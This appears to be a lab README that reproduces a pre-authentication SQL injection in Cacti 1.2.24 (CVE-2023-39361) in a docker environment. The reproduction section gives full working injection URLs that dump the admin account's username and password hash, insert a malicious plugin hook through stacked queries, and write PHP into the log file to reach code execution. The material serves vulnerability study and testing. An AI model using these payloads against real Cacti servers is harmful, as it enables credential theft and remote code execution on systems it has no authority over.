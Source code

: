 # Cacti Pre-Auth SQL Injection Leads to RCE (CVE-2023-39361)

[中文版本(Chinese version)](README.zh-cn.md)

Cacti is a complete network graphing solution designed to harness the power of RRDTool's data storage and graphing functionality, providing network managers with an intuitive interface to network data.

In Cacti versions 1.2.24 and earlier, a critical vulnerability exists in graph_view.php that allows guest users to perform SQL injection via the 'rfilter' parameter. When guest access is enabled, attackers can potentially cause significant damage, including remote code execution.

References:

- <https://github.com/Cacti/cacti/security/advisories/GHSA-6r43-q2fw-5wrg>
- <https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv>

## Environment Setup

Execute the following command to start a Cacti 1.2.24 server:

```
docker compose up -d
```

After the server starts, you can access the Cacti interface at `http://your-ip:8080`. The default credentials are admin/admin.

Log in as admin and follow the initialization instructions. Simply click the "Next" button repeatedly until you see the success page.

Before exploiting the vulnerability without authentication, you must enable guest access. Log in as admin, navigate to `Configuration -> Authentication`, and enable the guest user:

![](1.png)

## Vulnerability Reproduction

The vulnerability exists in the `grow_right_pane_tree` function in `graph_view.php`. When the 'action' parameter is set to 'tree_content', the user input ('rfilter' parameter) is validated through the `html_validate_tree_vars` function, but this validation only ensures that the input is a valid regular expression and doesn't prevent SQL injection.

The SQL injection occurs because the rfilter parameter is directly inserted into a SQL query with double quotes, allowing attackers to escape the query context and inject malicious SQL code.

To exploit this vulnerability, send a request to the graph_view.php endpoint with the following parameters:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,(select%20concat(id,0x23,username,0x23,password)%20from%20user_auth%20limit%201),4,5,6,(select%20user()),(select%20version()),9,10%23
```

The output reveals database information and admin account password:

![](2.png)

Since Cacti supports stacked queries, you can leverage this vulnerability along with [CVE-2024-31459](https://github.com/Cacti/cacti/security/advisories/GHSA-cx8g-hvq8-p2rv) to achieve local file inclusion.

First, add a new plugin hook that points to the `log/cacti.log` file:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("));INSERT%20INTO%20plugin_hooks(name,hook,file,status)%20VALUES%20(".","login_before","../log/cacti.log",1);%23
```

Then, write PHP code to the `log/cacti.log` file using an error-based SQL injection:

```
http://your-ip:8080/graph_view.php?action=tree_content&node=1-1-tree_anchor&rfilter=aaaaa"%20OR%20""="(("))%20UNION%20SELECT%201,2,3,4,5,6,updatexml(rand(),concat(0x7e,"<?php%20phpinfo();?>",0x7e),null),8,9,10%23
```

Now, the PHPINFO function will execute and display when accessing the login page, confirming successful remote code execution:

![](3.png)

